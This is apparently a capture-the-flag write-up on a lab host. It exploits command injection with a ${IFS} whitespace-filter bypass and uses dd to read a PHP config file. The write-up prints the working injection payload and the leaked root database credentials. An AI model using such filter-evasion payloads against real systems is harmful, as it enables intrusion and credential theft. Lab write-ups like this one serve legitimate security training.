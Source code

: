 ```yaml
---
title: Command Injection leading to LFI in dnslookup.hv
date: 2025-09-28 00:00:00 +0000
categories: [writeups, hackviser]
tags: [command-injection, web, lfi]
excerpt: "Bypassed command injection filters using IFS variables and alternative commands like dd to read local files and exfiltrate database credentials."
---
```


## Goal

The objective is to exploit a command injection vulnerability on `http://dnslookup.hv` to read the contents of `/var/www/html/database.php` and extract the database password.

## Summary

The application was vulnerable to command injection but filtered common commands and whitespace. By using `${IFS}` to bypass the space filter and employing alternative file-reading commands, I was able to read the `database.php` file. Using Burp Suite's Intruder with a custom list of payloads, the `dd` command was found to be effective, revealing the database credentials.

## What I tried

Initial tests with simple commands like `id` failed. However, using `${IFS}` as a space separator (e.g., `;${IFS}id`) successfully executed the command, confirming a command injection vulnerability with a whitespace filter.

Standard file reading commands like `cat` and `/bin/cat` were blocked, returning a generic response.

## Final, working approach (dd command)

To find a working command for reading files, I used Burp Suite's Intruder to test a list of alternative payloads. The following payload using the `dd` utility was successful:

```bash
;${IFS}dd${IFS}if=/var/www/html/database.php${IFS}bs=1${IFS}count=500
```

This command reads the `database.php` file byte by byte and outputs its content, revealing the database configuration.

### The Leaked `database.php` file

```php
try{
$host = 'localhost';
$db_name = 'hv_database';
$charset = 'utf8';
$username = 'root';
$password = 'DWG8kxJJjyquXd';

$db = new
PDO("mysql:host=$host;dbname=$db_name;charset=$charset"
, $username, $password);
} catch (PDOException $e) {
//...
}
```

The database password is `DWG8kxJJjyquXd`.
